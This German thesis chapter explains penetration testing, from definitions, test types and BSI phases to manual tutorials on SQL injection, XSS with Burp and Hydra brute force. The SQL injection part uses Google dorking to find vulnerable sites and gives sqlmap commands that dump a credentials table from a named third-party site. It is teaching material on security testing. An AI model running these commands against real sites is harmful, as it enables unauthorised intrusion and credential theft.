\chapter{Penetrationstest}
\label{cha:k4}

\section{Überblick}

Sicherheit ist eines der größten Probleme von Informationssystemen. Penetrationstests sind eine wichtige Sicherheitsbewertungsmethode und eine effektive Methode zur Beurteilung der Sicherheitslage eines bestimmten Informationssystems. In vielen Webanwendungen verbergen sich verschiedene Sicherheitslücken, die dem Betreiber nicht wahrnehmbar sind. Mittels dieser Sicherheitslücken entsteht ein großes Sicherheitsrisiko, weil ein Angreifer unter Umständen eine Lücke findet, die ihm unautorisierten Zugriff auf das System gewährt. Um dieses Risiko zu vermindern, werden Penetrationstests durchgeführt.

Der Umfang eines Penetrationstests kann von einzelnen Anwendungen bis zu unternehmensweiten Angriffen stark variieren. Ein Penetrationstest, der häufig mit einem Schwachstellenscan oder einer Schwachstellenanalyse verwechselt wird, versucht nicht nur, Schwachstellen zu finden, sondern sie auch in vollem Umfang auszunutzen. Dies bedeutet, dass ein Penetrationstester zwar mit der Suche nach einer Schwachstelle beauftragt werden kann, dass er jedoch alle entdeckten Schwachstellen verwendet und weiterhin ein System angreift, um mögliche zusätzliche Schwachstellen zu ermitteln\cite{northcutt2006}.

\section{Definitionen}

Bei einem Penetrationstest handelt es sich um die Sicherheit der IT-Systeme durch Bedrohungen von Angreifern inwiefern gefährdet ist bzw. ob die IT-Sicherheit durch die Sicherheitsmaßnahmen gewährleistet ist. Es werden unterschiedliche Methoden bei einem Penetrationstest verwendet, die auch von einem Angreifer durchgeführt würde. \cite[5--6]{pt03bsi}. Ein Penetrationstest für Webanwendungen konzentriert sich nur auf die Bewertung der Sicherheit einer Webanwendung. Der Prozess beinhaltet eine aktive Analyse der Anwendung auf Schwachstellen, technische Fehler oder Verwundbarkeit. Alle gefundenen Sicherheitsprobleme werden dem Systembetreiber zusammen mit einer Bewertung der Auswirkungen und häufig mit einem Vorschlag zur Milderung oder einer technischen Lösung vorgelegt\cite[46]{meucci2008owasp}.

In Bezug auf Penetrationstests gibt es eine Vielzahl von Definitionen. Nach dem von Bacudio\cite{bacudio2011overview} und Ke\cite{ke2009using} definierten Penetrationstest handelt es sich um eine Reihe von Aktivitäten zur Ermittlung und Ausnutzung von Sicherheitsschwächen. Es ist ein Sicherheitstest, bei dem versucht wird, Sicherheitsmerkmale eines Systems zu umgehen\cite{wack2003guideline}. Osborne definiert einen Penetrationstest als einen Test, mit dem sichergestellt wird, dass Gateways, Firewalls und Systeme entsprechend konzipiert und konfiguriert sind, um vor unberechtigtem Zugriff oder dem Versuch zu schützen, Dienste zu stören\cite{osborne2006cheat}.

\section{Ziele der Penetrationstests}

Da es kein System gibt, das weder jetzt noch in der Zukunft zu \%100 sicher ist, besteht eines der Hauptziele der Penetrationstests darin, zu prüfen, wie sicher ein System ist, dh wie unsicher es aus der Sicht eines Hackers ist. Um detaillierter zu erklären, werden Penetrationstests verwendet, um Lücken in der Sicherheitslage zu identifizieren, Exploits zu verwenden, um in das Zielnetzwerk zu gelangen, und dann Zugriff auf vertrauliche Daten zu erhalten\cite{yeo2013using}.

National Institute of Standards and Technology legt nahe, dass Penetrationstests auch zur Bestimmung von Folgendem nützlich sein können\cite{scarfone2008technical}: 

\begin{itemize}
	\item Wie gut das System reale Angriffsmuster toleriert.{\color{red}(How well the system tolerates real world attack patterns.)}
	\item Die wahrscheinliche Komplexität, die ein Angreifer benötigt, um das System erfolgreich zu beeinträchtigen.
	\item Zusätzliche Gegenmaßnahmen, die Bedrohungen gegen das System abschwächen könnten.
	\item Fähigkeit der Verteidiger, Angriffe zu erkennen und angemessen zu reagieren.
\end{itemize}

\section{Grundlegendes Konzept}

Penetrationstests können auf verschiedene Arten durchgeführt werden. Der häufigste Unterschied ist das Wissen über die Implementierungsdetails der getesteten Systeme, die dem Tester zur Verfügung gestellt wurden. Die weithin akzeptierten Ansätze sind Black-Box-, White-Box- und Gray-Box-Tests.

\begin{figure}[h]
	\centering
	
\includegraphics[width=14cm]{blackwhitegray.jpg}
	\caption{Die akzeptierte Ansätze\cite{bwgtesting16}}
\end{figure}

\subsection{Black-Box}

Black-Box-Tests beziehen sich auf das Testen eines Systems ohne spezifische Kenntnisse der internen Abläufe des Systems, keinen Zugriff auf den Quellcode und keine Kenntnisse der Architektur\cite{bwgwebtesting07}. Dem Tester wird nichts über das Netzwerk oder die Umgebung des Ziels mitgeteilt\cite{tiller2004ethical}. Wenn es sich um einen Black-Box-Test handelt, kann dem Tester eine Webseite oder IP-Adresse zugewiesen werden, und er soll die Website so knacken, als wäre er ein böswilliger Hacker von außen\cite{whitaker2005penetration}. Aufgrund des Mangels an internem Anwendungswissen kann das Aufdecken von Fehlern und / oder Schwachstellen jedoch erheblich länger dauern. Black-Box-Tests müssen gegen laufende Instanzen von Anwendungen ausgeführt werden. Daher ist Black-Box-Tests normalerweise auf dynamische Analysen wie das Ausführen von automatisierten Scan-Tools und manuelle Penetrationstests beschränkt\cite{bwgwebtesting07}. In Black-Box-Sicherheitstests können Hacker verschiedener Fertigkeitsstufen wie z. B. Skript-Kiddies, Mid-Level-Hacker oder Elite-Hacker\cite{bwgprole18}.

\subsection{White-Box}

Die White-Box-Tests werden auch als "interne Tests" bezeichnet. Bei diesem Ansatz simulieren Tester einen Angriff als eine Person, die über vollständige Kenntnisse der zu testenden Infrastruktur verfügt, häufig Betriebssystemdetails, IP-Adressschema und Netzwerklayouts, Quellcode und möglicherweise sogar einige Kennwörter\cite{ali2011pt}. Durch den vollständigen Zugriff auf diese Informationen können Fehler und Schwachstellen schneller entdeckt werden als mit der Test- und Fehlermethode des Black-Box-Tests. Darüber hinaus können Sie sicher sein, eine umfassendere Testabdeckung zu erhalten, indem Sie genau wissen, was Sie testen müssen. Aufgrund der Komplexität der Architekturen und des Umfangs des Quellcodes führt das White-Box-Testen jedoch zu Herausforderungen, wie die Test- und Analysebemühungen am besten ausgerichtet werden können. Zur Unterstützung von White-Box-Tests sind normalerweise Fachwissen und Tools erforderlich, z. B. Pentesting-Tool, Debugger und Quellcode-Analysatoren\cite{bwgwebtesting07}.

\section{Kriterien für Penetrationstests}

Bei einem Penetrationstest gibt es eine Vielzahl von verschiedenen Zielsetzungen, die vor dem Test festgelegt
werden müssen. Somit kann bei einem Penetrationstest ein realistischer Angriff simuliert werden, aber auch
ein Angriff von Insidern, die das Firmennetzwerk von ihrer täglichen Arbeit sehr gut kennen. Hierfür gibt es
verschiedene Kriterien, die vor einem Test berücksichtigt werden müssen. Im Nachfolgenden werden diese
Kriterien nach der Studie für Penetrationstests des BSI\cite[13--17]{pt03bsi} beschrieben.

\subsection{Informationsbasis}

Bei der Informationsbasis muss entschieden werden, wie viel Information der Tester über das anzugreifende
Ziel erhalten soll. Hier unterscheidet man zwischen Black-Box- und White-Box-Test. Bei einem Black-Box-Test bekommt der Tester nur sehr wenig bis zu keiner Information über das Angriffsziel. Dieser Test simuliert einen realistischen Angriff, da der Tester sich erst mit dem zu testenden System auseinandersetzen muss, um Details zu recherchieren, wie zum Beispiel welche Dienste mit welchen Versionsnummern
dort laufen. Dies ist für den Tester sehr aufwendig und zeitintensiv. Im Gegensatz zu einem Black-Box-Test bekommt der Tester bei einem White-Box-Test mehr Informationen zu dem Angriffsziel. Ein solcher Test soll zeigen, wie weit ein Insider mit sehr viel Wissen über die IT-Infrastruktur des Unternehmens in das Ziel eindringen kann. Hierfür bekommt der Tester den vollen Umfang
an Informationen wie IP-Adressen, verwendete Netzwerkprotokolle und den Source Code von Anwendungen,
die auf dem Zielsystem laufen.

\subsection{Aggressivität}

Die Aggressivität eines Penetrationstests wird in passiv, vorsichtig, abwägend und aggressiv unterteilt. Bei
einer passiven Aggressivitätsstufe werden die gefundenen Schwachstellen nur dokumentiert, aber nicht weiter
ausgenutzt. Wird jedoch der vorsichtige Ansatz gewählt, werden Schwachstellen nur dann ausgenutzt, wenn ein
Systemausfall aufgrund des Angriffs ausgeschlossen werden kann. Bei diesem Ansatz werden auch nur Angriffsmethoden
gewählt, die sehr ressourcenschonend sind. Bei einem Test mit Aggressivitätsgrad ”abwägend”
wird versucht, das Zielsystem nur so zu testen, dass eine Beeinträchtigung des Systems unwahrscheinlich ist,
jedoch aber vorkommen kann. Schon vor dem Test wird abgewägt wie wahrscheinlich es ist, erfolgreich zu sein
und welche Konsequenzen entstehen können. Die letzte Aggressivitätsstufe ist aggressiv. Hierbei werden alle
möglichen Schwachstellen ohne Rücksicht auf die Verfügbarkeit der Systeme getestet. Bei einem solchen Test
kann es passieren, dass auch andere Systeme bis hin zur ganzen IT-Infrastruktur ausfallen können.

\subsection{Umfang}

Bei einem Penetrationstest sollten immer alle Systeme auf Schwachstellen untersucht werden. Liegt der Fokus
nur auf bestimmten Komponenten, besteht weiterhin die Gefahr, dass es ein Einfalltor in das interne Netz gibt.
Bekommt ein Angreifer einmal unerlaubten Zugriff in das innere Netz, bieten sich noch mehr Möglichkeiten,
weitere Systeme zu befallen. Jedoch ist ein vollständiger Penetrationstest bei sehr großen Netzen nicht in kurzer
Zeit machbar. Daher liegt der Fokus oft auf besonders gefährdeten Komponenten wie Systeme, die direkt an das
Internet angebunden sind oder sehr sensible Daten enthalten. Daher existieren somit neben dem vollständigen
Test auch der fokussierte- und der begrenzte Penetrationstest. Der fokussierte Test wird oft angewandt, wenn
neue Systeme oder Anwendungen betrieben werden, um ein gleichmäßiges Sicherheitsniveau zu schaffen. Bei
einem begrenzten Test liegt der Fokus auf einem bestimmten Teil der Infrastruktur.

\subsection{Vorgehensweise}
Die Vorgehensweise unterscheidet sich hauptsächlich in einem verdeckten und einem offensichtlichen Test.
Das Ziel eines verdeckten Penetrationstests ist es, Sicherheitsanwendungen wie ein Intrusion Detection System
(IDS) auf die Wirksamkeit zu prüfen oder auch die Mitarbeiter einer Organisation mittels Social Engineering zu
testen. Bei einem verdeckten Test wird nur auf Methoden gesetzt, welche vom System nicht als Angriff gewertet
werden. Fällt die Entscheidung jedoch auf einen offensichtlichen Test, so können je nach dem anzugreifenden
System offensichtliche Sicherheitstests wie SQL-Injection oder Portscans durchgeführt werden.

\subsection{Technik}
Ein weiteres wichtiges Kriterium bei einem Penetrationstest ist die Technik. Soll ein realer Angriff von einem
Cyberkriminellen simuliert werden, wird der Penetrationstest meist über das Netzwerk durchgeführt. Jedoch
gibt es auch andere Einfallstore, die getestet werden sollten. Hat ein Angreifer zum Beispiel physischen Zugriff
auf ein System, könnte es leichter fallen, bestimmte Schwachstellen auszunutzen, die über das Netzwerk wegen einer existierenden Firewall nicht ausnutzbar sind. Des Weiteren besteht auch die Möglichkeit, Mitarbeiter des
Unternehmens mit einem Social Engineering Angriff zur Herausgabe von Zugangsdaten zu bringen.

\subsection{Ausgangspunkt}
Der Ausgangspunkt bei einem Penetrationstest beschreibt, von wo der Angriff gestartet wird. Die meisten
Organisationen betreiben eine Firewall, um den Zugriff nur auf gewisse Dienste zu unterbinden. Daher ist es oft
schwer, das dahinterliegende System anzugreifen. Aus diesem Grund konzentriert sich ein Penetrationstest von
außen auf die Konfiguration der eingesetzten Firewall, um zu testen, ob diese Konfigurationsfehler enthält, die
es einem externen Angreifer ermöglicht, in das Innere eines Netzes einzudringen. Es ist aber auch wichtig, den
Penetrationstest von innen durchzuführen, da hier in vielen Fällen keine Firewall übergangen werden muss, um
die laufenden Dienste und Anwendungen auf ihre Sicherheit zu überprüfen. Ein Test von innen kann zeigen,
wie gefährlich eine Schwachstelle in der Firewall wäre oder welche Möglichkeiten sich für einen Innentäter
bieten würden.

\section{Ablauf eines Penetrationstest}

Im Nachfolgenden werden das Ablauf eines Penetrationstest nach der Studie für Penetrationstests des BSI\cite[100--106]{pt03bsi} beschrieben.

\subsection{Vorbereitung}

\begin{figure}[h]
	\centering
	
\includegraphics[width=\textwidth]{vorbereitungpt.png}
	\caption{Phase 1 – Vorbereitung des Penetrationstests}
\end{figure}
Um den Anforderungen des Auftraggebers gerecht zu werden, bedarf es einer gründlichen Vorbereitung. In
dieser Phase muss geklärt werden, welche Komponenten getestet werden sollen und wie weit ein Penetrationstest
gehen darf. Hier kann der Auftraggeber den Tester auf einen bestimmten Bereich begrenzen, der für einen
Sicherheitstest besonders wichtig ist. Des Weiteren muss auch geklärt werden, welche Informationen der Tester
über die IT-Infrastruktur des Unternehmens bekommt. Bei diesem Schritt wird entschieden, ob es sich um einen
Black-Box-Test, Grey-Box-Test oder einen White-Box-Test handelt. Da es auch gesetzliche Bestimmungen
gibt, die das Angreifen von Computersystemen und Netzwerken verbieten, müssen bei einem Penetrationstest
alle durchzuführenden Tests und deren Risiken vertraglich vereinbart und dokumentiert werden, um spätere
Schadenersatzansprüche zu vermeiden.

\subsection{Informationsbeschaffung}

\begin{figure}[h]
	\centering
	
\includegraphics[width=\textwidth]{informationsbeschaffung.png}
	\caption{Phase 2 – Informationsbeschaffung}
\end{figure}

Nachdem die Vorbereitungen abgeschlossen sind und alle wichtigen Eckpunkte vereinbart wurden, kann mit
der Beschaffung von Information über die Zielsysteme begonnen werden. Um einen Überblick zu bekommen,
welche Dienste erreichbar sind, wird ein Portscan gegen das Zielsystem durchgeführt. Des Weiteren benötigt der
Tester Informationen über die eingesetzten Systeme und installierten Anwendungen, um einen detailreichen
Überblick über die möglichen Angriffspunkte zu erlangen. Je nach Größe des Netzes oder der Menge zu
testender Komponenten sollte in dieser Phase genug Zeit eingeplant werden. Beinhaltet der Test eine große
Menge an Rechnern, kann die Informationsbeschaffung einige Wochen andauern.

\newpage

\subsection{Bewertung der Informationen und Risikoanalyse}

\begin{figure}[h]
	\centering
	
\includegraphics[width=\textwidth]{bewertungderinf.png}
	\caption{Phase 3 – Bewertung der Informationen und Risikoanalyse}
\end{figure}

In dieser Phase werden die erlangten Informationen aus Phase 2 ausführlich zusammengetragen und das
jeweilige Risiko bewertet. Um den Penetrationstest effizient durchführen zu können, werden anhand einer
Risikobewertung der gesammelten Informationen entschieden, welche Komponenten in der nächsten Phase
genauer betrachtet werden. Diese Reduktion der zu testenden Komponenten bedeutet natürlich auch eine Einschränkung
des resultierenden Ergebnisses. Daher muss dies ausführlich dokumentiert und an den Auftraggeber
weitergegeben werden.

\subsection{Aktive Eindringversuche}

\begin{figure}[h]
	\centering
	
\includegraphics[width=\textwidth]{aktiveEindringversuche.png}
	\caption{Phase 4 – Aktive Eindringversuche durchführen}
\end{figure}

In dieser Phase wird geprüft, wie sicherheitskritisch die ausgewählten Sicherheitsmängel von Phase 3 wirklich
sind. Dies geschieht durch den Versuch, so weit wie möglich in ein System vorzudringen. Hier ist wichtig,
jeden Schritt genau zu bedenken, da durch Eindringversuche die Zielsysteme auch beschädigt werden könnten.
Wird dabei ein System getestet, das eine hohe Verfügbarkeit haben soll, so muss bedacht werden, wie der Test
aufgebaut wird, um die Verfügbarkeit weiterhin zu gewähren. Eine weitere Möglichkeit, um die Verfügbarkeit
der zu testenden Systeme sicherzustellen, ist das Verwenden von Schattensystemen. Dabei handelt es sich um
eine exakte Kopie des zu testenden Systems. Der Vorteil bei der Verwendung von Schattensystemen ist, dass
während des Penetrationstests sichergestellt ist, dass es zu keinen Ausfällen des originalen Systems kommt.

\subsection{Abschlussanalyse und Nacharbeiten}

\begin{figure}[h]
	\centering
	
\includegraphics[width=\textwidth]{abschluss.png}
	\caption{Phase 5 – Abschlussanalyse und Nacharbeiten durchführen}
\end{figure}

In der letzten Phase werden alle gefundenen Schwachstellen in einem Abschlussbericht zusammengefasst
und deren Risiken genau erläutert. Ein solcher Bericht muss neben den Resultaten des Penetrationstests auch
Möglichkeiten zur Behebung ausführen. Es ist wichtig, dass jede durchgeführte Aktion so beschrieben wird,
dass sie für den Auftraggeber nachvollziehbar ist und gegebenenfalls wiederholt werden kann. Nach der
Fertigstellung des Berichts sollte mit dem Auftraggeber ein Abschlussgespräch geführt werden, in dem noch
einmal alle gefundenen Sicherheitsprobleme ausführlich besprochen werden.

\section{Manuelle Penetrationstest}

In diesem Abschnitt werden unterschiedliche Methoden für manuelles Penetrationstest erklärt und wird gezeigt, wie diese manuelle Tests durchgeführt werden. 

\subsection{Testen von SQL Injektion mit SQLiv und SQLMAP}

Im Nachfolgenden werden Sql Injektion mit SQLiv und SQLMAP nach dem Tutorial von \cite{ramadhan17sqlinj} beschrieben.

Vor dem Injektionsangriff müssen wir natürlich sicherstellen, dass der Server oder das Ziel eine Sicherheitslücke in der Datenbank hat. Um Sicherheitslücken in Datenbanken zu finden, können wir verschiedene Methoden verwenden. Unter ihnen wird Google Dorking hauptsächlich von Hackern und Penetrationstestern verwendet. Glücklicherweise gibt es ein Werkzeug, das dies automatisch erledigt. Das Tool muss jedoch erst installiert werden. Das Tool heißt SQLiv (SQL Injection Vulnerability Scanner).\\

\textbf{Schritt 1: Finden von SQL-Injection-Schwachstelle}

Es wird Google Dorking verwendet, um die SQL-Injektionslücke in Zielen zu suchen und zu finden. SQLiv durchsucht jedes einzelne Ziel und sucht nach einer E-Commerce-Sicherheitsschwachstelle unter dem folgenden URL-Muster \texttt{''item.php?id=''}.\\

\begin{LaTeXCode}[caption={Google Dorking mit SQLiv},captionpos=b, label=LaTeXCode:gdsqliv][numbers=none]
~# sqliv -d inurl:item.php?id= -e google -p 100
\end{LaTeXCode}

Standardmäßig durchsucht SQLiv die erste Seite in der Suchmaschine, die bei Google 10 Websites pro Seite anzeigt. Daher wird hier das Argument -p 100 definiert, um 10 Seiten (100 Sites) zu durchsuchen. Basierend auf dem oben angegebenen Dork wird ein Ergebnis von verwundbaren URLs erhaltet, das wie folgt aussieht:

\begin{figure}[h]
	\centering
	
\includegraphics[width=\textwidth]{sqllive.png}
	\caption{Durchsuchung mit SQLiv}
\end{figure}

\newpage

\textbf{Schritt 2: SQL-Injektion mit SQLMAP}

Der Angriff wird mit SQLMap ausgeführt. Zuerst muss den Datenbankname zum Vorschein gebracht werden, der in der Datenbank Tabellen und Spalten enthält, die die Daten enthalten.

Ziel-URL: \texttt{http://www.acfurniture.com/item.php?id=25}\\

\textbf{A. Datenbankname aufdecken}\\

\begin{LaTeXCode}[caption={Aufdeckung vom Datenbankname},captionpos=b, label=LaTeXCode:advd1][numbers=none]
~# sqlmap -u "http://www.acfurniture.com/item.php?id=25" --dbs
\end{LaTeXCode}

Mit dem oben gegebenen Befehl wurde der Datenbankname erhalten:

\begin{table}[h]
	\centering
	\begin{tabular}{l}
		available databases         \\
		{[}*{]} acfurniture         \\
		{[}*{]} information\_schema
	\end{tabular}
	\caption{Ergebnis: Datenbankname}
\end{table}

\textbf{B. Tabellenname aufdecken}\\

\begin{LaTeXCode}[caption={Aufdeckung vom Tabellenname},captionpos=b, label=LaTeXCode:advt1][numbers=none]
~# sqlmap -u "http://www.acfurniture.com/item.php?id=25" -D acfurniture --tables
\end{LaTeXCode}

Das Ergebnis sollte so aussehen:

\begin{table}[]
	\centering
	\begin{tabular}{|l|}
		\hline
		{[}Date{]} {[}INFO{]} retrived: settings \\ \hline
		Database: acfurniture                    \\ \hline
		{[}4 tables{]}                           \\ \hline
		category                                 \\ \hline
		product                                  \\ \hline
		product\_hacked                          \\ \hline
		settings                                 \\ \hline
	\end{tabular}
	\caption{Ergebnis: Tabellenname}
\end{table}

\newpage

Bisher wurde festgestellt, dass die Website \texttt{acfurniture.com} hat zwei Datenbanken, acfurniture und information\_schema. Die Datenbank \texttt{acfurniture} enthält vier Tabellen: \texttt{category}, \texttt{product}, \texttt{product\_hacked} und settings.\\

\textbf{C. Spalten aufdecken}\\

\begin{LaTeXCode}[caption={Aufdeckung von Spalten},captionpos=b, label=LaTeXCode:advs1][numbers=none]
~# sqlmap -u "http://www.acfurniture.com/item.php?id=25" -D acfurniture -T settings --columns
\end{LaTeXCode}

\begin{table}[h]
	\centering
	\begin{tabular}{|l|l|}
		\hline
		Database:          & acfurniture      \\ \hline
		Table              & settings         \\ \hline
		\multicolumn{2}{|l|}{{[}6 columns{]}} \\ \hline
		Column             & Type             \\ \hline
		activationcode     & varchar(2048)    \\ \hline
		email              & varchar(45)      \\ \hline
		id                 & int(11)          \\ \hline
		password           & varchar(1024)    \\ \hline
		status             & smallint(2)      \\ \hline
		username           & varchar(45)      \\ \hline
	\end{tabular}
	\caption{Ergebnis: Spalten}
\end{table}

Die \texttt{settings} Tabelle besteht aus 6 Spalten, und dies ist eigentlich ein Konto mit Anmeldeinformationen. Jetzt wird versucht diese Informationen auszugeben.\\

\textbf{D. Informationen aufdecken}\\

Man kann alle Daten in der Tabelle mit folgendem Befehl ausgeben:

\begin{LaTeXCode}[caption={Aufdeckung von alle Daten in der Tabelle},captionpos=b, label=LaTeXCode:alledatenausgeben1][numbers=none]
~# sqlmap -u "http://www.acfurniture.com/item.php?id=25" -D acfurniture -T settings --dump
\end{LaTeXCode}

\newpage

Das Ergebnis sollte so aussehen:

\begin{figure}[h]
	\centering
	
\includegraphics[width=\textwidth]{aufdeckungalledatenindertabelle.png}
	\caption{Ergebnis: Alle Daten in der Tabelle}
\end{figure}

\subsection{Testen von Cross-Site-Scripting mit Burp}

Das folgende Cross-Site-Scripting-Beispiel stammt aus dem Tutorial von Web-Sicherheitsseite Portswigger\cite{portswigger12}.

\begin{figure}[h]
	\centering
	
\includegraphics[width=10cm]{xssburp.png}
	\caption{Adresse eingeben}
\end{figure}

Man muss eine entsprechende Eingabe in die Webanwendung eingeben und die Anfrage senden.

\begin{figure}[h]
	\centering
	
\includegraphics[width=11cm]{xssburp2.png}
	\caption{Erfassung der Anfrage durch Burp}
\end{figure}

\newpage

Die Anfrage wird von Burp erfasst. Die HTTP-Anforderung wird auf der Intercept-Tab angezeigt. Es wird mit der rechten Maustaste auf die Anforderung geklickt, um das Kontextmenü aufzurufen und dann wird auf "`An Repeater senden"' geklickt.

\begin{figure}[h]
	\centering
	
\includegraphics[width=11cm]{xssburp3.png}
	\caption{Bearbeiten dem Wert}
\end{figure}

Hier können verschiedene XSS-Payloads in das Eingabefeld eingegeben werden. Verschiedene Eingaben getestet werden, indem der Tester das "`Value"' des entsprechenden Parameters in den Tabs "`Raw"' oder "`Params"' bearbeiten. In diesem Beispiel wird versucht, dass ein Pop-up in unserem Browser ausgeführt wird.

\newpage

\begin{figure}[h]
	\centering
	
\includegraphics[width=11cm]{xssburp4.png}
	\caption{Suche nach dem Angriff in dem Quellcode}
\end{figure}

Es kann eingeschätzt werden, ob die Angriff in der Antwort unverändert bleibt. In diesem Fall ist die Anwendung für XSS-Angriffen anfällig. Die Antwort wird schnell über die Suchleiste unten im Antwortfenster gefunden. Der hervorgehobene Text ist das Ergebnis der Suche.

\begin{figure}[h]
	\centering
	
\includegraphics[width=11cm]{xssburp5.png}
	\caption{Kopieren von URL für Browser}
\end{figure}

Hier wird auf "`Antwort im Browser anzeigen"' geklickt, um die URL zu kopieren. Danach wird im Pop-up Fenster auf "`Kopieren"' geklickt.

\newpage

\begin{figure}[h]
	\centering
	
\includegraphics[width=11cm]{xssburp6.png}
	\caption{Pop-up im Browser anzeigen}
\end{figure}

Die kopierte URL wird in Adressleiste eingegeben, um die Realisierung des XSS-Angriffs durch das Senden einer kurzen und relativ harmlosen Nachricht oder Warnung an den Client ermöglichen.

\subsection{Testen Brute-Forcing-Passwörter mit THC-Hydra}

In diesem Beispiel wird Hydra verwendet, um in eine Anmeldeseite zu gelangen, indem ein Brute-Force-Angriff auf einige bekannte Benutzer ausgeführt wird\cite[143]{najera2016kali}.

Es wird eine Textdatei namens \texttt{benutzers.txt} erstellt{najera2016kali}:

\begin{center}
	admin\\test\\user\\user1\\john
\end{center}

In einem ersten Schritt wird analysiert, wie die Anmeldeanforderung gesendet wird und wie der Server darauf reagiert. Es wird Burp Suite verwendet, um eine Anmeldeanforderung in der Webanwendung zu erfassen\cite[144]{najera2016kali}:

\newpage

\begin{figure}[h]
	\centering
	
\includegraphics[width=\textwidth]{bfa.png}
	\caption{Anfrage an den Server und Antwort von dem Server}
\end{figure}

Wir können sehen, dass sich die Anfrage in \texttt{/dvwa/login.php} befindet und drei Variablen hat: \texttt{username}, \texttt{password}, and \texttt{login}.\\

